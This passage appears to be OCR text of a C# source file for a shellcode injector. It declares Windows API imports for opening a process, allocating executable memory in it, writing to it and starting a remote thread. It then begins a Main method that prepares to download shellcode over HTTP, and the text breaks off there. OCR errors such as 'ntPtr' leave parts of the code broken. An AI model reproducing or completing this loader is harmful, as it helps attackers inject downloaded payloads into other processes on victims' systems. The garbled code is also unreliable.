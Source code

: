 ```cs
    }
    internal class Program
    {
        [DllImport("kernel32.dll")]
        public static extern bool WriteProcessMemory(IntPtr hProcess, ntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr pNumberOfBytesWritten);
  
        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateRemoteThread(IntPtr hProcess, ntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, ThreadCreationFlags dwCreationFlags, out IntPtr lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, AllocationType flAllocationType, MemoryProtection flProtect);

        [DllImport("kernel32.dll")]
        public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

        [Flags]
        public enum AllocationType
        {
            NULL = 0x0,
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }
  
        public enum MemoryProtection : UInt32
        {
            PAGE_EXECUTE = 0x00000010,
            PAGE_EXECUTE_READ = 0x00000020,
            PAGE_EXECUTE_READWRITE = 0x00000040,
            PAGE_EXECUTE_WRITECOPY = 0x00000080,
            PAGE_NOACCESS = 0x00000001,
            PAGE_READONLY = 0x00000002,
            PAGE_READWRITE = 0x00000004,
            PAGE_WRITECOPY = 0x00000008,
            PAGE_GUARD = 0x00000100,
            PAGE_NOCACHE = 0x00000200,
            PAGE_WRITECOMBINE = 0x00000400
        }
  
        public enum ThreadCreationFlags : UInt32
        {
            NORMAL = 0x0,
            CREATE_SUSPENDED = 0x00000004,
            STACK_SIZE_PARAM_IS_A_RESERVATION = 0x00010000
        }
  
        static async Task Main(string[] args)
        {
            byte[] shellcode;
  
            using (var handler = new HttpClientHandler())
            {
```